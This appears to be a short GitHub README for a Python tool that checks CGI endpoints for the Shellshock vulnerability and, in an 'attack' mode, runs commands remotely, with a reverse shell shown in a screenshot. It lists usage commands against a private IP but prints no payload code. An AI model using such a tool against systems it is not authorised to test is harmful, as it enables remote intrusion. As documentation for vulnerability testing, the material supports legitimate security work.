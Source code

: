 # effectiveShellShocker
This is a Python script that tests for http shellshocker vulnerability. If it exists, it allows you to run commands remotely.

Simple Usage:
```bash
python3 effectiveShellShocker.py -h
```
![Help](Images/help.png)

```bash
python3 effectiveShellShocker.py test http://172.16.80.22 /cgi-bin /calendar.cgi
```
![Test](Images/test.png)

```bash
python3 effectiveShellShocker.py attack http://172.16.80.22 /cgi-bin /calendar.cgi
```
![Attack](Images/attack.png)

Reverse shell:

![Reverse Shell](Images/reverseshell.png)

Thank you
